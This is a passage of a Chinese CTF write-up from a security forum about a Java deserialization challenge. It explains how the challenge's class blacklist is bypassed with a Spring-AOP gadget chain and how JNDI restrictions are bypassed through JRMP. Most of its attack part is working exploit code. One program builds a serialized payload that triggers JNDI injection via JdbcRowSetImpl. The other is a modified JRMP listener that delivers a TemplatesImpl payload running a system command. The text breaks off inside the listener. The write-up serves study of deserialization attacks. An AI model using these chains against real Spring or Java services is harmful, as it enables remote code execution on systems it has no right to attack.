










# 从一道java题学习 JRMP 绕过 JNDI-先知社区

> **来源**: https://xz.aliyun.com/news/17733  
> **文章ID**: 17733

---

# 从一道java题学习 JRMP 绕过 JNDI

## 题目分析

题目为 justDeserialize，简单分析一下源码，看到在`/read` 路由存在反序列化漏洞



有两层 waf，一个是明文检测，一个是重写了 `resolveClass` 方法来进行的黑名单检测。明文检测可以通过 utf8-over 进行绕过，至于 `resolveClass` 方法的黑名单绕过只能不用上面的类了，blacklist.txt

```
javax.management.BadAttributeValueExpException
com.sun.org.apache.xpath.internal.objects.XString
java.rmi.MarshalledObject
java.rmi.activation.ActivationID
javax.swing.event.EventListenerList
java.rmi.server.RemoteObject
javax.swing.AbstractAction
javax.swing.text.DefaultFormatter
java.beans.EventHandler
java.net.Inet4Address
java.net.Inet6Address
java.net.InetAddress
java.net.InetSocketAddress
java.net.Socket
java.net.URL
java.net.URLStreamHandler
com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl
java.rmi.registry.Registry
java.rmi.RemoteObjectInvocationHandler
java.rmi.server.ObjID
java.lang.System
javax.management.remote.JMXServiceUR
javax.management.remote.rmi.RMIConnector
java.rmi.server.RemoteObject
java.rmi.server.RemoteRef
javax.swing.UIDefaults$TextAndMnemonicHashMap
java.rmi.server.UnicastRemoteObject
java.util.Base64
java.util.Comparator
java.util.HashMap
java.util.logging.FileHandler
java.security.SignedObject
javax.swing.UIDefaults
```

过滤得挺多的，jdk 版本为 11，接着看下题目依赖

```
- "BOOT-INF/lib/spring-aop-5.3.20.jar"  
- "BOOT-INF/lib/aspectjweaver-1.9.7.jar"  
- "BOOT-INF/lib/HikariCP-4.0.3.jar"  
- "BOOT-INF/lib/spring-jdbc-5.3.20.jar"  
- "BOOT-INF/lib/jakarta.transaction-api-1.3.3.jar"  
- "BOOT-INF/lib/jakarta.persistence-api-2.2.3.jar"  
- "BOOT-INF/lib/hibernate-core-5.6.9.Final.jar"  
- "BOOT-INF/lib/jboss-logging-3.4.3.Final.jar"  
- "BOOT-INF/lib/byte-buddy-1.12.10.jar"  
- "BOOT-INF/lib/antlr-2.7.7.jar"  
- "BOOT-INF/lib/jandex-2.4.2.Final.jar"  
- "BOOT-INF/lib/classmate-1.5.1.jar"  
- "BOOT-INF/lib/hibernate-commons-annotations-5.1.2.Final.jar"  
- "BOOT-INF/lib/jaxb-runtime-2.3.6.jar"  
- "BOOT-INF/lib/jakarta.xml.bind-api-2.3.3.jar"  
- "BOOT-INF/lib/txw2-2.3.6.jar"  
- "BOOT-INF/lib/istack-commons-runtime-3.0.12.jar"  
- "BOOT-INF/lib/jakarta.activation-1.2.2.jar"  
- "BOOT-INF/lib/spring-data-jpa-2.7.0.jar"  
- "BOOT-INF/lib/spring-data-commons-2.7.0.jar"  
- "BOOT-INF/lib/spring-orm-5.3.20.jar"  
- "BOOT-INF/lib/spring-context-5.3.20.jar"  
- "BOOT-INF/lib/spring-tx-5.3.20.jar"  
- "BOOT-INF/lib/spring-beans-5.3.20.jar"  
- "BOOT-INF/lib/spring-core-5.3.20.jar"  
- "BOOT-INF/lib/spring-jcl-5.3.20.jar"  
- "BOOT-INF/lib/spring-aspects-5.3.20.jar"  
- "BOOT-INF/lib/spring-boot-2.7.0.jar"  
- "BOOT-INF/lib/logback-classic-1.2.11.jar"  
- "BOOT-INF/lib/logback-core-1.2.11.jar"  
- "BOOT-INF/lib/log4j-to-slf4j-2.17.2.jar"  
- "BOOT-INF/lib/log4j-api-2.17.2.jar"  
- "BOOT-INF/lib/jul-to-slf4j-1.7.36.jar"  
- "BOOT-INF/lib/jakarta.annotation-api-1.3.5.jar"  
- "BOOT-INF/lib/snakeyaml-1.30.jar"  
- "BOOT-INF/lib/jackson-databind-2.13.3.jar"  
- "BOOT-INF/lib/jackson-annotations-2.13.3.jar"  
- "BOOT-INF/lib/jackson-core-2.13.3.jar"  
- "BOOT-INF/lib/jackson-datatype-jdk8-2.13.3.jar"  
- "BOOT-INF/lib/jackson-datatype-jsr310-2.13.3.jar"  
- "BOOT-INF/lib/jackson-module-parameter-names-2.13.3.jar"  
- "BOOT-INF/lib/tomcat-embed-core-9.0.63.jar"  
- "BOOT-INF/lib/tomcat-embed-el-9.0.63.jar"  
- "BOOT-INF/lib/tomcat-embed-websocket-9.0.63.jar"  
- "BOOT-INF/lib/spring-web-5.3.20.jar"  
- "BOOT-INF/lib/spring-webmvc-5.3.20.jar"  
- "BOOT-INF/lib/spring-expression-5.3.20.jar"  
- "BOOT-INF/lib/hsqldb-2.4.1.jar"  
- "BOOT-INF/lib/druid-spring-boot-starter-1.2.8.jar"  
- "BOOT-INF/lib/druid-1.2.8.jar"  
- "BOOT-INF/lib/javax.annotation-api-1.3.2.jar"  
- "BOOT-INF/lib/slf4j-api-1.7.36.jar"  
- "BOOT-INF/lib/spring-boot-autoconfigure-2.7.0.jar"  
- "BOOT-INF/lib/spring-boot-jarmode-layertools-2.7.0.jar"
```

发现存在 spring-aop 和 aspectjweaver 依赖，这两个依赖可以打 spring-aop 反序列化链，并且涉及的类都不在黑名单上。

## Spring-Aop

这里主要不是看这条链子，就简单分析一下，调用链

```
Gadget
JdkDynamicAopProxy#invoke()->
    ReflectiveMethodInvocation#proceed()->
        JdkDynamicAopProxy#invoke()->
            AspectJAroundAdvice#invoke->
                AbstractAspectJAdvice#invokeAdviceMethod()->				
                    method.invoke()
```

可以看到调用链中出现了两次 `JdkDynamicAopProxy#invoke()` 方法是因为包裹了两层代理，下面会进行解释。定位到 `AbstractAspectJAdvice#invokeAdviceMethod ()` 方法，会调用到 `invokeAdviceMethodWithGivenArgs` 方法，在这个方法中存在反射调用



接着继续看链子可以知道在 `AspectJAroundAdvice#invoke` 调用了 `org.springframework.aop.aspectj.AbstractAspectJAdvice.invokeAdviceMethod()` 方法，因为 `AspectJAroundAdvice` 是子类，其没有 `invokeAdviceMethod()` 方法所以会调用到父类 `AbstractAspectJAdvice` 的该方法，



参数什么的就不用管了，然后继续顺着链子向上看，来到 `ReflectiveMethodInvocation.proceed()` 方法，



需要让这里的 `interceptorOrInterceptionAdvice` 变量为 `AspectJAroundAdvice` 类，朔源一下 `interceptorsAndDynamicMethodMatchers` 变量，在构造函数进行了赋值



最后来到 `JdkDynamicAopProxy.invoke()` 方法，看到在 else 分支调用了我们的 `ReflectiveMethodInvocation.proceed()` 方法，而且进行了 `ReflectiveMethodInvocation` 实列化，需要让 chain 变量为我们的目标类，



这条链子最关键的是怎么进入 else 分支，需要 chain 不为空，很多师傅已经分析过了，最后赋值点在 `DefaultAdvisorAdapterRegistry#getInterceptors` 方法中，



而这个 `advice` 变量需要是 Advice 类型然后还需要实现 `MethodInterceptor` 接口，我们需要让这个 advice 为我们的目标类也就是 `AspectJAroundAdvice` ，但是这个目标类只实现了 `MethodInterceptor` 接口，

所以这里考虑给其套层代理类，同样选择 JdkDynamicAopProxy 类，这样就同时满足两个条件，按照上面逻辑最后会调用代理类的 invoke 方法，触发 handler.invoke，再次来到 `JdkDynamicAopProxy#invoke()` 方法进行反射调用 `AspectJAroundAdvice#invoke` ，最后实现利用。

前面第一次触发代理类的触发方法选择的 compare，然后最后只能调用无参方法，选择 `JdbcRowSetImpl#getDatabaseMetaData` 方法打 jndi 注入

参考：[https://gsbp0.github.io/post/软件攻防赛现场赛上对justdeserialize攻击的几次尝试/](https://gsbp0.github.io/post/%E8%BD%AF%E4%BB%B6%E6%94%BB%E9%98%B2%E8%B5%9B%E7%8E%B0%E5%9C%BA%E8%B5%9B%E4%B8%8A%E5%AF%B9justdeserialize%E6%94%BB%E5%87%BB%E7%9A%84%E5%87%A0%E6%AC%A1%E5%B0%9D%E8%AF%95/) ，构造 poc 如下

```
import com.example.ezjav.utils.User;  
import com.sun.rowset.JdbcRowSetImpl;  
import org.aopalliance.aop.Advice;  
import org.aopalliance.intercept.MethodInterceptor;  
import org.springframework.aop.aspectj.AbstractAspectJAdvice;  
import org.springframework.aop.aspectj.AspectJAroundAdvice;  
import org.springframework.aop.aspectj.AspectJExpressionPointcut;  
import org.springframework.aop.aspectj.SingletonAspectInstanceFactory;  
import org.springframework.aop.framework.AdvisedSupport;  
import org.springframework.aop.support.DefaultIntroductionAdvisor;  
import java.io.*;  
import java.lang.reflect.*;  
import java.util.Comparator;  
import java.util.PriorityQueue;  
import javax.management.BadAttributeValueExpException;  
  
  
public class test {  
    public static void main(String[] args) throws Exception {  
  
        JdbcRowSetImpl jdbc=new JdbcRowSetImpl();  
        jdbc.setDataSourceName("ldap://127.0.0.1:9999/LDAP_POC");  
        Method method=jdbc.getClass().getMethod("getDatabaseMetaData"); 
  
        SingletonAspectInstanceFactory factory = new SingletonAspectInstanceFactory(jdbc);  
        AspectJAroundAdvice advice = new AspectJAroundAdvice(method,new AspectJExpressionPointcut(),factory);  
        Proxy proxy1 = (Proxy) getAProxy(advice,new Class[]{Advice.class, Comparator.class});  
  
  
        PriorityQueue PQ=new PriorityQueue(1);  
        PQ.add(1);  
        PQ.add(2);  
  
        setValue(PQ,"comparator",proxy1 );  
        setValue(PQ,"queue",new Object[]{proxy1, proxy1});  
  
        serilize(PQ);  
        deserilize("ser.bin");  
  
    }  
    public static Object getBProxy(Object obj,Class[] clazzs) throws Exception  
    {  
        AdvisedSupport advisedSupport = new AdvisedSupport();  
        advisedSupport.setTarget(obj);  
        Constructor constructor = Class.forName("org.springframework.aop.framework.JdkDynamicAopProxy").getConstructor(AdvisedSupport.class);  
        constructor.setAccessible(true);  
        InvocationHandler handler = (InvocationHandler) constructor.newInstance(advisedSupport);  
        Object proxy = Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(), clazzs, handler);  
        return proxy;  
    }  
    public static Object getAProxy(Object obj,Class[] clazzs) throws Exception  
    {  
        AdvisedSupport advisedSupport = new AdvisedSupport();  
        advisedSupport.setTarget(obj);  
        AbstractAspectJAdvice advice = (AbstractAspectJAdvice) obj;  
  
        DefaultIntroductionAdvisor advisor = new DefaultIntroductionAdvisor((Advice) getBProxy(advice, new Class[]{MethodInterceptor.class, Advice.class}));  
        advisedSupport.addAdvisor(advisor);  
        Constructor constructor = Class.forName("org.springframework.aop.framework.JdkDynamicAopProxy").getConstructor(AdvisedSupport.class);  
        constructor.setAccessible(true);  
        InvocationHandler handler = (InvocationHandler) constructor.newInstance(advisedSupport);  
        Object proxy = Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(),new Class[]{Advice.class, Comparator.class} , handler);  
        return proxy;  
    }  
    public static void serilize(Object obj)throws IOException {  
        ObjectOutputStream out=new ObjectOutputStream(new FileOutputStream("ser.bin"));  
        out.writeObject(obj);  
    }  
    public static Object deserilize(String Filename)throws IOException,ClassNotFoundException{  
        ObjectInputStream in=new ObjectInputStream(new FileInputStream(Filename));  
        Object obj=in.readObject();  
        return obj;  
    }  
  
    public static void setValue(Object obj,String fieldName,Object value) throws Exception {  
        Field field = obj.getClass().getDeclaredField(fieldName);  
        field.setAccessible(true);  
        field.set(obj,value);  
    }  
  
}
```

## JRMP 绕过 jndi

虽然 jdk 版本为 11，按理说 trustSerialData 应该为 true，但是看 GSBP 师傅博客题目中貌似设置为了 false，这让我想到了 jdk21 下的 jndi 注入，可以通过 JRMP 实现绕过，主要利用方法为 `StreamRemoteCall#executeCall()`，

```
public void executeCall() throws Exception {
    byte returnType;

    // read result header
    DGCAckHandler ackHandler = null;
    try {
        if (out != null) {
            ackHandler = out.getDGCAckHandler();
        }
        releaseOutputStream();
        DataInputStream rd = new DataInputStream(conn.getInputStream());
        byte op = rd.readByte();
        if (op != TransportConstants.Return) {
            if (Transport.transportLog.isLoggable(Log.BRIEF)) {
                Transport.transportLog.log(Log.BRIEF,
                    "transport return code invalid: " + op);
            }
            throw new UnmarshalException("Transport return code invalid");
        }
        getInputStream();
        returnType = in.readByte();
        in.readID();        // id for DGC acknowledgement
    } catch (UnmarshalException e) {
        throw e;
    } catch (IOException e) {
        throw new UnmarshalException("Error unmarshaling return header",
                                     e);
    } finally {
        if (ackHandler != null) {
            ackHandler.release();
        }
    }

    // read return value
    switch (returnType) {
    case TransportConstants.NormalReturn:
        break;

    case TransportConstants.ExceptionalReturn:
        Object ex;
        try {
            ex = in.readObject();
        } catch (Exception e) {
            discardPendingRefs();
            throw new UnmarshalException("Error unmarshaling return", e);
        }

        // An exception should have been received,
        // if so throw it, else flag error
        if (ex instanceof Exception) {
            exceptionReceivedFromServer((Exception) ex);
        } else {
            discardPendingRefs();
            throw new UnmarshalException("Return type not Exception");
        }
        // Exception is thrown before fallthrough can occur
    default:
        if (Transport.transportLog.isLoggable(Log.BRIEF)) {
            Transport.transportLog.log(Log.BRIEF,
                "return code invalid: " + returnType);
        }
        throw new UnmarshalException("Return code invalid");
    }
}
```

注意到该方法中存在反序列化的调用，其实这段处理就是 JRMP 协议，可以直接使用ysoserial的 `JRMPListener` 模块。会在 lookup 中被调用



需要自定义一个 `JRMPListener`，用 spring-aop 链再次进行反序列化。

```
package org.example;  
  
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;  
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;  
import javassist.ClassClassPath;  
import javassist.ClassPool;  
import javassist.CtClass;  
import javassist.CtConstructor;  
import org.aopalliance.aop.Advice;  
import org.aopalliance.intercept.MethodInterceptor;  
import org.example.Reflections;  
import org.springframework.aop.aspectj.AbstractAspectJAdvice;  
import org.springframework.aop.aspectj.AspectJAroundAdvice;  
import org.springframework.aop.aspectj.AspectJExpressionPointcut;  
import org.springframework.aop.aspectj.SingletonAspectInstanceFactory;  
import org.springframework.aop.framework.AdvisedSupport;  
import org.springframework.aop.support.DefaultIntroductionAdvisor;  
import sun.rmi.transport.TransportConstants;  
import javax.management.BadAttributeValueExpException;  
import javax.net.ServerSocketFactory;  
import java.io.*;  
import java.lang.reflect.*;  
import java.lang.reflect.Proxy;  
import java.net.*;  
import java.rmi.MarshalException;  
import java.rmi.server.ObjID;  
import java.rmi.server.UID;  
import java.util.Arrays;  
  
  
/**  
 * Generic JRMP listener * <p>  
 * Opens up an JRMP listener that will deliver the specified payload to any  
 * client connecting to it and making a call. * * @author mbechler  
 */@SuppressWarnings({  
        "restriction"  
})  
public class test implements Runnable {  
  
    private int port;  
    private Object payloadObject;  
    private ServerSocket ss;  
    private Object waitLock = new Object();  
    private boolean exit;  
    private boolean hadConnection;  
    private URL classpathUrl;  
  
  
    public test ( int port, Object payloadObject ) throws NumberFormatException, IOException {  
        this.port = port;  
        this.payloadObject = payloadObject;  
        this.ss = ServerSocketFactory.getDefault().createServerSocket(this.port);  
    }  
  
    public test (int port, String className, URL classpathUrl) throws IOException {  
        this.port = port;  
        this.payloadObject = makeDummyObject(className);  
        this.classpathUrl = classpathUrl;  
        this.ss = ServerSocketFactory.getDefault().createServerSocket(this.port);  
    }  
  
    public static void main(String[] args) throws Exception {  
  
//        if (args.length < 3) {  
//            System.err.println(JRMPListener.class.getName() + " <port> <payload_type> <payload_arg>");  
//            System.exit(-1);  
//            return;  
//        }  
        final Object payloadObject = makePayloadObject();  
  
        try {  
            int port = 1098;  
            System.err.println("* Opening JRMP listener on " + port);  
            test c = new test(port, payloadObject);  
            c.run();  
        } catch (Exception e) {  
            System.err.println("Listener error");  
            e.printStackTrace(System.err);  
        }  
    }  
  
    private static Object makePayloadObject() throws Exception {  
        ClassPool pool = ClassPool.getDefault();  
        CtClass clazz = pool.makeClass("a");  
        CtClass superClass = pool.get(AbstractTranslet.class.getName());  
        clazz.setSuperclass(superClass);  
        CtConstructor constructor = new CtConstructor(new CtClass[]{}, clazz);  
        constructor.setBody("Runtime.getRuntime().exec("calc");");  
        clazz.addConstructor(constructor);  
        byte[][] bytes = new byte[][]{clazz.toBytecode()};  
        TemplatesImpl templates = TemplatesImpl.class.newInstance();  
        setValue(templates, "_bytecodes", bytes);  
        setValue(templates, "_name", "test");  
        setValue(templates, "_tfactory", null);  
        Method method=templates.getClass().getMethod("newTransformer");//获取newTransformer方法  
  
        SingletonAspectInstanceFactory factory = new SingletonAspectInstanceFactory(templates);  
        AspectJAroundAdvice advice = new AspectJAroundAdvice(method,new AspectJExpressionPointcut(),factory);  
        java.lang.reflect.Proxy proxy1 = (Proxy) getAProxy(advice, Advice.class);  
  
        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(123);  
        setValue(badAttributeValueExpException, "val", proxy1);  
  
        return badAttributeValueExpException;  
    }  
    public static Object getBProxy(Object obj,Class[] clazzs) throws Exception  
    {  
        AdvisedSupport advisedSupport = new AdvisedSupport();  
        advisedSupport.setTarget(obj);  
        Constructor constructor = Class.forName("org.springframework.aop.framework.JdkDynamicAopProxy").getConstructor(AdvisedSupport.class);  
        constructor.setAccessible(true);  
        InvocationHandler handler = (InvocationHandler) constructor.newInstance(advisedSupport);  
        Object proxy = Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(), clazzs, handler);  
        return proxy;  
    }  
    public static Object getAProxy(Object obj,Class<?> clazz) throws Exception  
    {  
        AdvisedSupport advisedSupport = new AdvisedSupport();  
        advisedSupport.setTarget(obj);  
        AbstractAspectJAdvice advice = (AbstractAspectJAdvice) obj;  
  
        DefaultIntroductionAdvisor advisor = new DefaultIntroductionAdvisor((Advice) getBProxy(advice, new Class[]{MethodInterceptor.class, Advice.class}));  
        advisedSupport.addAdvisor(advisor);  
        Constructor constructor = Class.forName("org.springframework.aop.framework.JdkDynamicAopProxy").getConstructor(AdvisedSupport.class);  
        constructor.setAccessible(true);  
        InvocationHandler handler = (InvocationHandler) constructor.newInstance(advisedSupport);  
        Object proxy = Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(), new Class[]{clazz}, handler);  
        return proxy;  
    }  
    public static void setValue(Object obj,String fieldName,Object value) throws Exception {  
        Field field = obj.getClass().getDeclaredField(fieldName);  
        field.setAccessible(true);  
        field.set(obj,value);  
    }  
  
    @SuppressWarnings({"deprecation"})  
    protected static Object makeDummyObject(String className) {  
        try {  
            ClassLoader isolation = new ClassLoader() {  
            };  
            ClassPool cp = new ClassPool();  
            cp.insertClassPath(new ClassClassPath(Dummy.class));  
            CtClass clazz = cp.get(Dummy.class.getName());  
            clazz.setName(className);  
            return clazz.toClass(isolation).newInstance();  
        } catch (Exception e) {  
            e.printStackTrace();  
            return new byte[0];  
        }  
    }  
  
    public boolean waitFor(int i) {  
        try {  
            if (this.hadConnection) {  
                return true;  
            }  
            System.err.println("Waiting for connection");  
            synchronized (this.waitLock) {  
                this.waitLock.wait(i);  
            }  
            return this.hadConnection;  
        } catch (InterruptedException e) {  
            return false;  
        }  
    }  
  
    /**  
     *     */    public void close() {  
        this.exit = true;  
        try {  
            this.ss.close();  
        } catch (IOException e) {  
        }  
        synchronized (this.waitLock) {  
            this.waitLock.notify();  
        }  
    }  
  
    public void run() {  
        try {  
            Socket s = null;  
            try {  
                while (!this.exit && (s = this.ss.accept()) != null) {  
                    try {  
                        s.setSoTimeout(5000);  
                        InetSocketAddress remote = (InetSocketAddress) s.getRemoteSocketAddress();  
                        System.err.println("Have connection from " + remote);  
  
                        InputStream is = s.getInputStream();  
                        InputStream bufIn = is.markSupported() ? is : new BufferedInputStream(is);  
  
                        // Read magic (or HTTP wrapper)  
                        bufIn.mark(4);  
                        DataInputStream in = new DataInputStream(bufIn);  
                        int magic = in.readInt();  
  
                        short version = in.readShort();  
